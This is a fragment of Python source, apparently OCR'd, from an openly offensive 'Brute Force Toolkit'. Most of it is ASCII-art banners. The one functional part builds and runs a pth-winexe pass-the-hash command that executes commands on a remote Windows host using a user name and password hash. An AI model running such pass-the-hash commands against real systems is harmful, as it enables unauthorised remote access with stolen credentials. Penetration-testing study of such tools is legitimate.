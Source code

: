 	pthwinexe= "pth-winexe -U %s%%%s //%s %s"%(user_name,pass_hash,ip_address,command)
	print color.RED + """
	*****************************************************************************************************
	*  pth-winexe -U %s%%%s //%s %s
	*****************************************************************************************************
	"""%(user_name,pass_hash,ip_address,command) + color.END
	os.system(pthwinexe) 

####################### PTHWinexe ############################

subject = """
###########################################################
#	 ____             _   _____         _____ 	  #
#	| __ ) _ __ _   _| |_|  ___|__  _ _|_   _|	  #
#	|  _ \| '__| | | | __| |_ / _ \| '__|| |          #
#	| |_) | |  | |_| | |_|  _| (_) | |   | |          #
#	|____/|_|   \__,_|\__|_|  \___/|_|   |_|          #
#							  #
###########################################################
"""

print color.BLUE + subject + color.END

title = """###########################################################
#           BRUTE FORCE TOOLKIT v1.0 (BrutForT)  	  #
#---------------------------------------------------------#
#	       	      ZEKI OZSIVIL			  #
#              http://www.zekiozsivil.com		  #
#---------------------------------------------------------#
#      #
#              https://github.com/zeki-gif		  #
###########################################################
"""

print color.RED + title + color.END
